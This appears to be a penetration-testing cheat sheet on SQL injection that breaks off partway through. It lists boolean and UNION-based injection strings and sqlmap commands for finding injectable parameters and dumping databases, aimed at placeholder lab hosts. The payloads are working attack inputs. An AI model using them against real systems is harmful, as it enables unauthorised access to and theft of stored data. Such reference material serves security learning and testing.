 ```

### SQL Injection

`'`, `"` are used as string terminators  
`#`, `--` are used for comments  
`SELECT`, `UNION` are SQL commands

**Boolean based SQL Injections**  
`' OR 'a'='a` = true  
`' OR '1'='1` = true  
`' OR '1'='2` = false  
`and 1=1; -- -`  
`and 1=2; -- -`

**Examples**  
`' OR 'a'='a`  
`' UNION SELECT Column1, Column2 FROM Table WHERE 'a'=a`  
`' UNION SELECT user(); -- -';`

#### SQLMap

- `-u` is used for the URL
- `-p` is used as injection parameter
- `-d`
- `-t`
- `-c`
- `--database`
- `--tables`
- `--columns`
- `--dump`

**Example:**  
`sqlmap -u 'http://website.tld/view.php?id=1141' -p id --technique=U`

#### GET request

```
sqlmap -u http://IP-ADDRESS
```

#### POST request

```
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```

Check if injection exists

sqlmap -r Post.req  
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id #GET Method  
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin&password=admin" #POST Method

Get database if injection Exists

sqlmap -r login.req --dbs  
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id --dbs #GET Method  
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin&password=admin" --dbs #POST Method

Get Tables in a Database

```